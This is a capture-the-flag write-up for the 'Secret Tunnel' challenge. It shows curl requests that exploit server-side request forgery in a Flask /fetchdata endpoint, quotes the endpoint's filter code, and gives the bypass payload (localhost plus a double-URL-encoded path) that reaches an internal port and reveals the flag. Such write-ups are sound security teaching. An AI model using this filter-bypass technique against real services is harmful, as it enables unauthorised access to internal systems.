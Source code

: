 <h1> Secret Tunnel </h1>


<p> This server has two flask web servers, one on port 80 with which we can retrieve the first 32 characters of a web page and the other on port 1337 which displays the flag but which is only accessible locally.</p>

```bash
$ curl -X POST -d "url=https://nbctf.com/" https://secret-tunnel.chal.nbctf.com/fetchdata                                   
<!DOCTYPE html><html lang="en"><
```

```bash
$ curl -X POST -d "url=http://127.0.0.1:1337/flag" https://secret-tunnel.chal.nbctf.com/fetchdata
No loopback for you!
```

<p> We can see that the /fetchdata is vulnerable because we can bypass the basic filters to get the flag from the local web server on the 1337 port. </p>

```python
def fetchdata():
    url = request.form["url"]

    if "127" in url:
        return Response("No loopback for you!", mimetype="text/plain")
    if url.count('.') > 2:
        return Response("Only 2 dots allowed!", mimetype="text/plain")
    if "x" in url:
        return Response("I don't like twitter >:(" , mimetype="text/plain")
    if "flag" in url:
        return Response("It's not gonna be that easy :)", mimetype="text/plain")
```

<p> To bypass the filters we can replace 127.0.0.1 by localhost, and double URL encode "flag". And it's given the flag ! </p>

```bash
$ curl -X POST -d "url=http://localhost:1337/%2566%256c%2561%2567" https://secret-tunnel.chal.nbctf.com/fetchdata
nbctf{s3cr3t_7uNN3lllllllllll!}
```
